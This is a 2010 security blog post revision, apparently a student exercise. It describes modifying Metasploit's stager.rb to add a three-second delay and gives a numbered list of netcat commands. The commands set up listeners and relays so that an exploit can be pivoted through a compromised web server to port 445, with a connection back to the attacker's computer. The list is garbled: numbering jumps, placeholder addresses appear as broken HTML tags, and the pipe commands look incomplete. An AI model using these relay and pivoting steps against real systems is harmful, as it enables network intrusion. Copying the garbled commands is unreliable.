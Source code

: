 ```yaml
---
id: 797
title: 'Students&#8217; temp name'
date: '2010-05-11T15:48:43-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=797'
permalink: '/?p=797'
---
```


In order to get the timing right for the final command, a modification to the *stager.rb* in the */core/payload/* folder was necessary. We added a three-second delay before the stage data was sent in order to link the connections together; otherwise, the stage data would be sent before the entire link was created and, while the vulnerability would be exploited, the connection back would fail.

```
Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix
```

The following commands were executed in the order provided. We had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6.

1. This command is run on the Hacker computer:

- nc -l -p 4443 -vv pipe1

6. This command was run on the Web Server:
- nc -l -p 4444 -vv pipe2

8. Hacker computer:
- nc -l -p 1234 -vv pipe3

10. Web Server:
- nc <hacker address="" computer="" ip=""> 1234 -vv 445 -vv > pipe4</hacker>

12. Run Exploit
13. Hacker computer:
- nc <hacker address="" computer="" ip=""> 4444 -vv 4443 > pipe</hacker>